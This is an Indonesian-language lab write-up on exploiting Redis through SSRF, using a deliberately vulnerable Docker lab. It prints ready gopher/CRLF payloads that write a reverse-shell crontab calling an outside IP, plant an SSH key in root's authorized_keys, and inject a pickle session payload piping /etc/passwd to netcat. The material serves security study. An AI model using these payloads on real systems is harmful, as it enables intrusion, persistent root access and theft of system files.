

# SSRF And Redis

## Redis 101

Redis adalah _in-memory_ _data stucture store_ yang digunakan untuk menyimpan data dalam bentuk key-value, dan bisa digunakan sebagai _database_, _serialized/session storage_, _cache_, dan _job queue_.

Contoh pada _Freamwork_ Django dan Flask, Redis dapat digunakan sebagai _session_ instance-nya atau pada Gitlab menggunakan redis sebagai _Job queue_ nya.

Redis menggunakan `Text Based line protocol` sehingga bisa diakses menggunakan `telnet` ataupun `netcat` tanpa perlu lagi menggunakan software khusus untuk mengakses _instance_ Redis, tapi Redis mempunyai _official client_ software bernama `redis-cli`.

Redis Support menggunakan 2 type command, yaitu :

**1.** Tanpa mengikuti format RESP \(REdis Serialization Protocol\) langsung menggunakan SPASI. 


**2.** Mengikut format RESP, format ini lebih direkomendasikan \(karena memang standar untuk Request/Response Redis\), selain itu penggunaan format ini bisa menghindari _syntax error_ apabila terdapat karakter khusus seperti tanda petik \( " \)


### Redis Command

| Command | Keterangan |
| :--- | :--- |
| SET &lt;key&gt; &lt;value&gt; | Set key dan value |
| GET &lt;key&gt; | Melihat value dari key |
| DEL &lt;key&gt; | Menghapus key |
| KEYS \* | Melihat list key yang ada |
| CONFIG SET &lt;parameter&gt; &lt;value&gt; | Merubah konfigurasi instance redis \(sama seperti mengedit file redis.conf\) |
| CONFIG GET &lt;parameter&gt; | Melihat konfigurasi dari parameter tertentu |
| FLUSHALL | Menghapus semua key yang ada |
| SAVE | Menyimpan data ke Disk \(_Persistence_\) |
| QUIT | Keluar dari _instance_ Redis |
| SLAVEOF &lt;host&gt; &lt;port&gt; | Menjadikan Redis sebagai _Slave_ dari &lt;host&gt; |

### Redis Persistence

Redis menyimpan data pada memory, sehingga apabila server direstart data-data tersebut akan hilang karena ram adalah penyimpanan _volatile_. Untuk mengatasi permasalahan ini Redis mempunyai fitur _Persitence_,yang akan menyimpan data-data ke Harddisk.

Redis menyediakan dua jenis persistence yaitu : 

* RDB \(Redis Database Backup\) yang akan menyimpan data ke harddisk  setiap kali command "SAVE" dijalanakn, dan
* AOF \(Append Only File\) akan menyimpan data ke harddisk setiap kali melakukan operasi \(kurang lebih fungsinya seperti Bash Shell yang menyimpan _history_ _command_ ke .bash\_history setiap kali _command_  sukses dieksekusi\).  

Parameter konfigurasi Redis untuk melakukan persistence

| Parameter | Deskripsi | Tipe |
| :--- | :--- | :--- |
| Dir | _Working Directory_ untuk RDB disimpan | RDB |
| Dbfilename | Nama file RDB \(Default : dump.rdb\) | RDB |
| Appendonly | Enable atau Disable AOF \(Default : no\) | AOF |
| Appendfilename | Nama file AOF \(Default : appendonly.aof\) | AOF |
| Appendfsync | \(Default : everysec\) | AOF |

AOF tidak tepat dimanfaatkan untuk  untuk melakukan _file writing_ \(Dalam konteks SSRF tulisan ini\), karena Redis tidak mengijinkan perubahan nama file AOF \(_default_ : appendonly.aof\) menggunakan _command_  `CONFIG SET` \(saat _Runtime_\), tapi harus dilakukan langsung dengan meng-edit file redis.conf.

### Redis Exploit

Exploit terakhir yang berdampak pada Redis adalah _**Redis**_ _**EVAL Lua Sandbox Escape - CVE-2015-4335**_ yang ditemukan oleh Ben Murphy. Namun celah ini sudah diperbaiki mulai versi Redis 2.8.21 dan 3.0.2.

Saat ini tidak ada _Exploit_ untuk langsung mendapatkan RCE di _instance_ Redis, tapi attacker bisa memanfaatkan fitur "_persistence_" atau mungkin memanfaatkan _Unsafe Serialization_ dari Applikasi terkait, sehingga dapat digunakan sebagai teknik untuk mendapatkan RCE.


**Penting** untuk diketahui, eksploitasi redis secara langsung melalui ssrf hanya bisa melakukan _File Writing_ saja, _File Reading_ ataupun _Os_ _Command Execution_ tidak bisa dilakukan, sehingga bisa dikatakan sama seperti _SQL Injection INTO OUTFILE_, dimana _attacker_ harus mengetahui _**document root**_ yang _writeable_.


### Redis Vs HTTP

Redis dan HTTP sama-sama merupakan _Text Based Protocol_, sehingga HTTP bisa digunakan untuk mengakses Redis, Tapi karena berpotensi menimbulkan _security issue_, sejak perilisan Redis 3.2.7 yang menjadikan _HTTP Header_ `HOST:` dan `POST` sebagai alias untuk _command_ `QUIT` lalu melakukan _logging_ dengan pesan "_Possible SECURITY ATTACK detected. It looks like somebody is sending POST or Host: commands to Redis. This is likely due to an attacker attempting to use Cross Protocol Scripting to compromise your Redis instance. Connection aborted._"


Apabila ingin memaksa HTTP berkomunikasi dengan Redis dibutuhkan celah \(_GET Method_\) _SSRF_  + _CRLF Injection_ dibagian _parameter GET._ Agar terhindar dari adanya _keyword_ POST dan _CRLF Injection_ akan membuat _Header HOST_ berada diposisi setelah _command_ Redis.

**\*\*Trivia** : Pembuatan alias _POST_ ke _QUIT_ ini berdasarkan saran dari salah satu anggota forum news.ycombinator.com, geocar.


## LAB SETUP

```text
git clone https://github.com/rhamaa/Web-Hacking-Lab.git
cd SSRF_REDIS_LAB
docker-compose build && docker-compose up
```

### Informasi Lab

| OS | Web Server Port | Document Root | SSH Port | Redis Version | Redis Port | Redis Privilege |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| Ubuntu 18.04 | 1111 | /www | 10024 | Redis 5.0.5 | 6379 \(Default\) | root |
| Centos 7 | 2222 | /www | 10025 | Redis 5.0.5 | 6379 \(Default\) | root |
| Debian 9 | 3333 | /www | - | Redis 5.0.5 | 6379 \(Default\) | redis |



**Setiap** _**Payload**_ yang di-generate pada tulisan ini, akan dimasukan sebagai URL di SSRF Lab Web, sehingga tidak perlu lagi ada screenshoot proses attack ke Lab. Informasi ini diberikan agar tidak ada kebingugan mengenai bagaimana cara attack-nya



**Secara default**, Redis berjalan dengan _low priviliege_ yaitu sebagai user 'redis'. Pada Lab sengaja  menggunakan _privilege_ _root_ agar bisa me-write crontab dan authorized\_key ssh, karena dengan user 'redis' tidak memiliki permission untuk melakukan _write_ pada kedua file tersebut.


## Redis And SSRF

### Redis - Cron

Cron adalah _scheduler task_ pada linux, cron akan mengeksekusi perintah yang di-set menggunakan _command_  `crontab` secara periodik sesuai dengan waktu yang di-set.

`Cron` menyimpan crontab file di `/var/spool/cron/<Username>` \(Centos\), `/var/spool/cron/crontabs/<Username>` \(Ubuntu\) dan S_ystem Wide_ crontab berada di `/etc/crontabs`.

Lab sengaja menggunakan 2 OS berbeda karena memang ada sedikit perbedaan _behavior_ antara cron di Centos dan Ubuntu.



```python
$ python payload_redis.py cron
Reverse IP > 
Port > 
Centos/Ubuntu (Default Centos)      
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A
%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2477%0D%0A%0A
%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20/bin/bash%20-c%20%27sh%20-i%20%3E
%26%20/dev/tcp/b%27XXX.XXX.XXX.XXX%27/8080%200%3E%261%27%0A%0A%0D%0A%
2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A
%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243
%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D
%0A%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A
```



**Ubuntu Lab**

Redis akan me-write file dengan permission 0644, sedangkan crontab file pada ubuntu diharuskan mempunyai permission 0600 sehingga akan memberikan peringatan pada system log. 


Selain itu terdapat _dummy data_ pada file RDB Redis yang menyebabkan cron mengabaikan crontab file tersebut karena ada _syntax_ yang tidak valid, jadi walaupun crontab file-nya memiliki permission 0600 tetap tidak akan ter-eksekusi.



**Menulis crontab** file dengan Redis via SSRF tidak akan bekerja di Ubuntu, karena crontab file di Ubuntu harus memiliki _permission_ 0600 agar bisa dieksekusi dan bersih dari dummy data yang menyebabkan _syntax error_  


**Centos Lab**

Di Centos walaupun crontab file dengan permission 0644 dan terdapat dummy data, cron tetap akan dieksekusi sehingga bisa mendapatkan reverse shell.



### Redis - SSH Public Key

Authorized\_keys digunakan untuk menyimpan list public key SSH sehingga user login dengan menggunakan pasangan private-public key SSH bukan dengan password. Authorized\_keys terletak di `$HOME/.ssh/authorized_keys`

Apabila `$HOME/.ssh/authorized_keys` dalam keadaan writeable, ini bisa dimanfaatkan untuk menyimpan _SSH keys_ _attacker_.



```python
$ python payload_redis.py ssh
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D
%0A%241%0D%0A1%0D%0A%24403%0D%0A%0D%0A%0D%0Assh-rsa%20AAAAB3NzaC1yc2EAAAADAQABAAABAQD
c4B6PTML3xiqId/qw8cJkPmwSbtdOsAS2IGUUk1ifRHZsdfgcFvj7fzMFo1ydGAOuZcGPeT838LQ3R8ruWe4B
788Q5ZKRO6CZSoEmqs4FWuCz7QvwWu9%2B2kMH/6gUvVQAQNYD2RACXgJcCAm77bg/WHZfgGJYNtOKDUf%2B0
V1ku%2B/h8ijsQJdkuk5Zr7w1xjOdigLs8ST7MivptfYGvbnh/XUk3Y2EfyoACmW0MpcnthdLL3s/8SOs5exe
kRNYYU9rn74itibDHlsYvukBtKhW/XOAPZ3T38qDf7PJyqPoOl%2BAQ8AaFwIBVfE7V1mPRCqZLkG97SRjMy1
V9dhTgG4h%20rhama%40Inspiron-7472%0D%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0A
set%0D%0A%243%0D%0Adir%0D%0A%2410%0D%0A/root/.ssh%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A
%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%2415%0D%0Aauthorized_keys%0D%0A%2A1%0D%0A
%244%0D%0Asave%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A

====================================================
After payload executed, try ssh root@server_hostname
====================================================

```



Pada Ubuntu dan Centos Lab ssh bisa diakses meskipun terdapat dummy data.


### **Redis As Session Storage**

Web menggunakan Redis sebagai _Session Storage_, pada lab _web redis session storage_ akan berfokus melakukan exploitasi pada _Unsafe Serialialization_, karena biasa nya _Session_ berbentuk objek lalu agar objek tersebut bisa disimpan ke Redis harus diubah menjadi _string_. Proses mengubah objek menjadi  _string_ disebut "_**Serialization**_" dan proses mengubah _string_ menjadi objek disebut "_**Deserialization**_".

Lab mengimplementasikan Redis sebagai _Session Storage_ menggunakan sample snippet dari [_Server-side Sessions with Redis_](http://flask.pocoo.org/snippets/75/) dan _**Pickle**_ digunakan sebagai _Serializer_, pickle ini seperti yang diketahui tidak aman dan bisa dimanfaatkan untuk mendapatkan RCE.


Alur Attack-nya cukup sederhana, kita hanya perlu mengubah nilai session dengan _Payload Pickle_ melalui SSRF. Sesuai dengan logic yang ada di source code, session akan di-serialize dan diencode base64.

Untuk bisa mengubah nilai session yang tersimpan di Redis dibutuhkan nama _Key_, di lab ini session akan disimpan dengan nama `session:<session_id>`


Session Id bisa kita lihat menggunakan fitur bawaan web browser, developer tools


**\*Trivia: Flask Internal** 

Pada saat request mau berakhir atau saat views melakukan return, Flask secara internal akan memanggil method `finalize_request`, lalu dalam `finalize_request` terdapat pemanggilan lagi method `process_response` yang memanggil `save_session` dari _class_ `session_interface`. method `save_session` akan menyimpan nilai dari _session_ \(dalam konteks tulisan ini, value session akan disimpan ke Redis\). Kenapa informasi ini menjadi penting ? karena pada saat kita ingin mencoba mengubah nilai dari session yang ada di Redis via SSRF, nilai yang berhasil kita ubah via SSRF tadi malah akan di-overwrite kembali dengan nilai asli.

Setidaknya ada 3 skenario yang bisa lakukan akan agar nilai yang sudah diganti bisa langsung mendapatkan RCE pada Lab _**Pickle-Redis**_.

1. Saat _payload SSRF_ dieksekusi, secara bersamaan kita mengakses endpoint lain, misal /login \(cara ini bisa menggunakan _multithreading/multiprocessing_\) karena saat mengakses _endpoint_ lain, flask akan memanggil method "open\_session" dari class session\_interface, lalu mengambil nilai session \(jadi terhindar dari save\_session\).
2. Mengubah nilai dari _Session Id_, lalu me-write _Payload Pickle_ ke _Modified Session Id_ tersebut, contoh _Session Id_ nya adalah AAAA-AAAA-AAAA-AAAA, kita bisa mengubahnya menjadi AAAA-AAAA-AAAA-AAAB misalnya, lalu set AAAA-AAAA-AAAA-AAAB sebagai _Key_, nanti tinggal menggunakan AAAA-AAAA-AAAA-AAAB di sisi _client_ agar Flask membaca nilai dari _Session Id_ tersebut.
3. Menggunakan fitur _Master-Slave Redis_ \(_trigger via SSRF_ dengan command _SLAVEOF_\), lalu mengubah langsung nilainya karena setiap perubahan yang terjadi di _Master_ akan otomatis disinkronisasikan ke _Slave_.

Pada tulisan ini akan menggunakan skenario 2, karena sesuai dengan konteks dari Lab dan materi pembahasan tulisan ini.

```text
$ python2 payload_redis.py pickle
Key name > session:8ac1cb48-5064-4067-9e43-ed0df6856425
http://127.0.0.1:6379/_%0D%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%2444%0D%0Asession%3A8ac1
cb48-5064-4067-9e43-ed0df6856425%0D%0A%2492%0D%0AY3Bvc2l4CnN5c3RlbQpwMAooUydjYXQgL2V0Y
y9wYXNzd2QgfCBuYyAxMjcuMC4wLjEgOTA5MScKcDEKdHAyClJwMwou%0D%0A
```

**\*\*Note** __: _Session Id_ asli _session:8ac1cb48-5064-4067-9e43-ed0df685642**6**_ diganti menjadi _session:8ac1cb48-5064-4067-9e43-ed0df685642**5.**_


### Redis As Job Queue

Contoh memanfaatkan Redis sebagai Job Queue untuk mendapatkan RCE bisa merujuk ke Video LiveOverFlow.



## Trivia : Redis Protected Mode

Apabila Redis tidak dalam P_rotected Mode_, instance redis akan terekspos di jaringan luar/internet, yang lebih parah apabila instance redis tidak menggunakan autentikasi sehingga menyebabkan orang bisa sembarangan mengakses instance redis tersebut.


